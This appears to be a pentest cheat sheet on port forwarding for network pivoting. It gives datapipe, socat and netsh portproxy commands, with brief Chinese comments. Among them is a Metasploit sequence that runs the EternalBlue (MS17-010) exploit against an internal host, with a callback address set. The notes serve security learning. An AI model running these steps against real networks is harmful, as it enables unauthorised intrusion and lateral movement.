

Port forwarding
===
🔙 [MENU README](./Pivot%20&%20Double%20Pivot.md)


# Datapipe
> single bin, simple function
> 輕薄短小


```bash
# https://github.com/bovine/datapipe/blob/master/datapipe.c
# change Line 80: 20 to 999  MAXCLIENTS 999
gcc datapipe.c -o datapipe
```
```bash
datapipe 0.0.0.0 135 192.168.0.7 135
datapipe 0.0.0.0 445 192.168.0.7 445
datapipe 0.0.0.0 4444 172.19.19.18 4444
```
MS17_010
```bash
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
show options
set rhosts 172.19.19.70
set lhost 192.168.0.70
check
exploit
```

# Socat
> full function, fat, support UDP
> 最有名的Port Forward，但很肥

```bash
socat tcp-listen:80,fork     tcp:<IP>:80
socat udp-recvfrom:161,fork  udp-sendto:<IP>:161
socat udp-recvfrom:53,fork   udp-sendto:<IP>:53
socat udp-recvfrom:123,fork  udp-sendto:<IP>:123
```

# Portproxy
> Windows netsh built-in
> Windows內建 
> 需要是本機管理權限

```bash
netsh interface portproxy add    v4tov4 8888 <IP> 80
netsh interface portproxy show   v4tov4
netsh interface portproxy delete v4tov4 8888 <IP> 80

# 127.0.0.1:8888
```